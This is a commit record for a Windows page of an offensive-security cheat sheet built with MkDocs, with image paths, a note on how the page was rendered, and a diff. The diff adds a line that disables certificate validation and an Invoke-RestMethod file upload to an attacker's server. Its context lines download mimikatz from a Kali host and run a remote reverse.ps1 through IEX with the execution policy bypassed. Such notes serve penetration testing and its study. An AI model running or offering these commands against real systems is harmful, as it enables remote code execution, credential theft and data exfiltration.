

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Useful_Commands/Windows.md, in a window 1280 px wide and 900 px high, scrolled down 2492 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Windows.md

````diff
--- a/docs/Useful_Commands/Windows.md
+++ b/docs/Useful_Commands/Windows.md
@@ -101,7 +101,11 @@ bitsadmin /create JOB & bitsadmin /addfile JOB %TEMP%\test1.txt %TEMP%\test2.txt
 * BEWARE: This does not seem to work if you are to encode the whole command (IEX...). Better to encode payload/command from Windows to see if it gives an error
 
 
-### Download files
+### Download & Uploading files
+* Ignore bad/untrusted/self-signed certificates
+    ```powershell
+    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
+    ```
 * Download only [^1]
     ```powershell
     Invoke-WebRequest "http://<KALI_IP>:8000/mimikatz.zip" -Out mimikatz.zip
@@ -114,6 +118,11 @@ bitsadmin /create JOB & bitsadmin /addfile JOB %TEMP%\test1.txt %TEMP%\test2.txt
 * Download and execute
     ```powershell
     powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
+    ```
+* Uploading files
+    * Setup a [Simple HTTP Server](../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver) for this command.
+    ```
+    Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials
     ```
 
 ### cat, tail, grep in Windows PS
````
